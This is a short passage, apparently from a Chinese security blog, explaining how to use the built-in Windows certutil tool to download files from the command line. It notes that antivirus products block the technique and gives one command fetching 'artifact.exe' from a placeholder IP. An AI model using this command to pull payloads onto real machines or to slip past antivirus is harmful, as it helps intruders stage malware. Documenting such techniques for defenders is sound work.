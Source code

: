 [![](assets/1701612219-b97b105d5404565f46c5d5b0d4e043c3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152036-849df9a6-ca85-1.png)

# certutil下载文件

一般我最常使用的`certutil`的功能就是在cmd环境下下载文件，因为`certutil`是windows自带的exe，所以在使用的时候会比其他exe或者vbs更加方便。但是因为在下载文件的过程中也会创建进程，所以也遭到了各大杀软的拦截。

一般使用`certutil`下载文件的命令为

```plain
certutil -urlcache -split -f http://ip/artifact.exe
```
